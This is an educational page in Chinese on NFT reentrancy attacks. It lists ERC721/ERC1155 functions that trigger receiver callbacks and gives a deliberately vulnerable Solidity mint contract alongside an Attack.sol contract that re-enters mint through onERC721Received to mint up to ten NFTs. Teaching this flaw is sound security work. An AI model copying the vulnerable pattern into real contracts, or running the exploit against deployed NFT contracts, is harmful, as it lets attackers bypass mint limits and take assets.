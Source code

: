 ```yaml
---
title: 11.NFTReentrancy
---
```


# Summary

尽管NFT标准（ERC721/ERC1155）为了防止用户误把资产转入黑洞而加入了安全转账，但是如果转入地址为合约，则会调用该地址相应的检查函数，确保它已准备好接收NFT资产。
例如 ERC721 的 safeTransferFrom() 函数会调用目标地址的 onERC721Received() 函数，而黑客可以把恶意代码嵌入其中进行攻击。

# 危险函数表
| Standard | Vulnerablefunction                  |
| -------- | ----------------------------------- |
| ERC721   | safeTransferFrom                    |
|          | _safeTransfer                       |
|          | _safeMint                           |
|          | _checkonERC721Received              |
| ERC1155  | safeTransferFrom                    |
|          | _safeTransferFrom                   |
|          | safeBatchTransferFrom               |
|          | _safeBatchTransferFrom              |
|          | _mint                               |
|          | _mintBatch                          |
|          | _doSafeTransferAcceptanceCheck      |
|          | _doSafeBatchTransferAcceptanceCheck |


# Example
Code from [WTF](https://github.com/AmazingAng/WTF-Solidity/blob/main/S16_NFTReentrancy/readme.md)
```solidity title=""
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // 铸造函数，每个用户只能铸造1个NFT
    // 有重入漏洞
    function mint() payable external {
        // 检查是否mint过
        require(mintedAddress[msg.sender] == false);
        // 增加total supply
        totalSupply++;
        // mint
        _safeMint(msg.sender, totalSupply);
        // 记录mint过的地址
        mintedAddress[msg.sender] = true;
    }
}
```

```solidity title="Attack.sol"
contract Attack is IERC721Receiver{
    NFTReentrancy public nft; // 有漏洞的nft合约地址

    // 初始化NFT合约地址
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }
    
    // 攻击函数，发起攻击
    function attack() external {
        nft.mint();
    }

    // ERC721的回调函数，会重复调用mint函数，铸造10个
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 10){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```
